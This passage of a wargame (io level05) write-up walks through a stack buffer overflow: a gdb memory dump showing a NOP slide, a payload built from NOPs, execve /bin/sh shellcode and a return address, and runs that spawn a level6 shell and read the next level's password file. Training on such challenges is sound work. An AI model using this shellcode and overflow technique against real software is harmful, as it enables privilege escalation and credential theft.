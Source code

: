     0xbffffd90:     0x0c252d59      0x50cdb0e6      0x69728706      0x00363836
    0xbffffda0:     0x2f000000      0x6576656c      0x6c2f736c      0x6c657665
    0xbffffdb0:     0x90003530      0x90909090      0x90909090      0x90909090 <- the nop slide
    0xbffffdc0:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffdd0:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffde0:     0x90909090      0x90909090      0x90909090      0x90909090 <- 0xbffffde0 looks nice
    0xbffffdf0:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffe00:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffe10:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffffe20:     0x90909090      0x58009090      0x535f4744      0x49535345
    0xbffffe30:     0x495f4e4f      0x31313d44      0x00303937      0x4c454853
    0xbffffe40:     0x622f3d4c      0x622f6e69      0x00687361      0x4d524554
    0xbffffe50:     0x7263733d      0x2d6e6565      0x63363532      0x726f6c6f



Let's convert `0xbffffde0` to the hex representation:

    \xe0\xfd\xff\xbf

We have our complete payload:

    print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xe0\xfd\xff\xbf"

Let's use that in gdb:

    (gdb) run $(python -c 'print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xe0\xfd\xff\xbf"')
    Starting program: /levels/level05 $(python -c 'print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xe0\xfd\xff\xbf"')
    1Ph//shh/biǹ
    process 19609 is executing new program: /bin/bash
    sh-4.3$ whoami
    level5
    sh-4.3$ exit

We are in! But we are still the user level5, that's because we're running the executable from gdb, let's try without:

    level5@io:/levels$ ./level05  $(python -c 'print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xe0\xfd\xff\xbf"')
    1Ph//shh/biǹ
    sh-4.3$ whoami
    level6
    sh-4.3$ cat /home/level6/.pass
    fQ8W8YlSBJBWKV2R

> fQ8W8YlSBJBWKV2R
